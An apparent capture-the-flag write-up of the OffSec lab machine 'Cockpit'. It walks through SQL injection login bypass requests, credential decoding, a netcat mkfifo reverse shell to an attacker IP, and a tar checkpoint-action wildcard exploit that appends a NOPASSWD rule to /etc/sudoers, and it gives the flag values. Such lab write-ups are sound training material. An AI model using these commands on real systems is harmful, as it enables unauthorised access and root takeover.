# Lab Report - Cockpit


# Overview 
- **Difficulty**: Intermediate
- **Community Rating**: Intermediate
- **Platform**: Linux
- **Link**: https://portal.offsec.com/machine/cockpit-49474/overview/details

## Resolution Summary 
A custom login portal on a web application on port 80 was vulnerable to SQLi, allowing us to gain access to an admin dashboard and to retrieves credentials. Using the recovered credentials, we could log into the Cockpit instance on port 9090, allowing us to gain access to a terminal console, leading to a foothold on the target. Finally, we abused a wildcard in the tar command - which we could run as sudo - to grant ourselves unrestricted sudo privileges, thus gaining a root shell immediately afterwards.

# Information Gathering 
- First off, we performed an Nmap scan in order to reveal exposed services as well as their versions. We discovered a web application running on port 80: 
```bash
sudo nmap 192.168.196.10 -p- -sCV
```
<p align="center">
  
</p>


- Using `Wappalyzer`, we noticed that the web application is likely running on PHP, hence we enumerated for PHP files and discovered a `/login.php` page:
	- Note that we also enumerated directories, but we were unsuccessful.
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt:FUZZ -u http://192.168.196.10/FUZZ.php -t 180 -ic
```
<p align="center">
  
</p>


```bash
http://192.168.196.10/login.php
```
<p align="center">
  
</p>


- When fuzzing the input fields, we noticed that using an apostrophe as a username generated an SQL error, which hinted us at a potential SQLi vulnerability: 
	- Note that `'` becomes `%27` when URL encoded
```HTTP
POST /login.php HTTP/1.1
Host: 192.168.196.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://192.168.196.10
Connection: keep-alive
Referer: http://192.168.196.10/login.php
Cookie: PHPSESSID=02sgbk9oojkqosq1717dhgipiv
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=%27&password=admin
```
<p align="center">
  
</p>


# Exploitation 
- Upon inspecting the MySQL error, we noticed that it was flawed since it seemed  to rely on the following query: 
```sql
Select * from tablename where username like '%[username]%' and password like '%[password]%'   
```
<p align="center">
  
</p>


- Here, provided only a valid username or even a letter in a valid username would result in a valid login attempt. 
- Knowing that, we used the letter `a` as username and gained access the the admin's dashboard. We found two pairs of credentials : 
```HTTP
POST /login.php HTTP/1.1
Host: 192.168.196.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Origin: http://192.168.196.10
Connection: keep-alive
Referer: http://192.168.196.10/login.php
Cookie: PHPSESSID=02sgbk9oojkqosq1717dhgipiv
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=a&password=
```
<p align="center">
  
</p>


- **Side Note**: we saved both the usernames and the passwords and sprayed them on the SSH service. However, password authentication was not supported:
<p align="center">
  
</p>


- Since the passwords were base64 encoded, we decoded them and recovered their cleartext versions:
```bash
echo Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI= | base64 -d
echo dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy | base64 -d
```
<p align="center">
  
</p>


- We sprayed our credentials on the Cockpit web application on port 9090, which had a login page. We gained using the credentials `james:canttouchhhthiss@455152`:
```bash
https://192.168.146.10:9090/
```
<p align="center">
  
</p>


<p align="center">
  
</p>


- We had access to a terminal. Upon confirming that we could execute code, we ran a reverse shell in order to get a foothold on the target: 
- First, we confirmed that we had RCE by running the id command from the provided terminal:
```bash
https://192.168.146.10:9090/system/terminal
```
<p align="center">
  
</p>


- Next, we set up a listener on our side: 
```bash
penelope -p 80
```

- Then we executed the following reverse shell on the terminal console, gaining a shell access on the target: 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.213 80 >/tmp/f
```
<p align="center">
  
</p>


- We collected the first flag: 
```bash
cat /home/james/local.txt && id && ip a
```
<p align="center">
  
</p>


# Privilege Escalation 
- After listing commands we could run with sudo, we noticed that we could run tar on any files (wildcard): 
```bash
sudo -l
```
<p align="center">
  
</p>


- Having noticed that, we abused the wildcard by creating files that would allow us - in our case - to grant ourselves unrestricted root privileges: 
```bash
echo 'echo "james ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *
```
<p align="center">
  
</p>


- Afterwards, we confirmed our new sudo privileges, then gained a root shell: 
```bash
sudo -l 
sudo su 
id
```
<p align="center">
  
</p>


- Finally, we retrieved the last flag: 
```bash
cat /root/proof.txt && id && ip a
```
<p align="center">
  
</p>


# Trophy 
**local.txt → `077b726da0523f5694fa860627ab51e8`**  

**proof.txt → `54f7b79114fb451938212440ad2ed68b`**

# Lessons Learned
---
- In our case, for some reasons, we couldn't log in with the credentials we found on the Cockpit login portal. However, after resetting the lab, we could log in.
	- Hence, if something obvious does not work, make sure to reset the lab, then give it a try again
